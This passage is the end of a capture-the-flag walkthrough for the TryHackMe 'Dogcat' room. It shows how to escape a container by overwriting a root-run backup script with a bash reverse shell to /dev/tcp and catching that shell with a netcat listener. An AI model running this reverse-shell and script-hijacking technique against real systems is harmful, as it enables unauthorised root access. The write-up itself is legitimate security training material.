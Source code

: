 In /opt/backups we can se that there is a backup script that is run regularly to generate a backup.tar file. Let’s use this to genreate another reverse shell outside of this container.

We can easily exploit, that this script is run every other minute with root privileges, by inserting some code that will generate a reverse connection to us.<br/>To insert this code into the script, simply run this:

```bash
echo "#!/bin/bash" > /opt/backups/backup.sh
echo "/bin/bash -c 'bash -i >& /dev/tcp/{TUN0}/8888 0>&1'" >> /opt/backups/backup.sh
```

And listen on port 8888 on your machine:

```bash
nc -lnvp 8888
```

Now wait a few seconds (or minutes, for me it took just a few seconds) and you get another root shell.

![](/static/images/Dogcat-TryHackMe/secondRootShell.png)

The fourth flag is in **/root/flag4.txt**

![](/static/images/Dogcat-TryHackMe/flag4.png)

## The End

And there you have it! I hope you had fun, I know I did 🦄
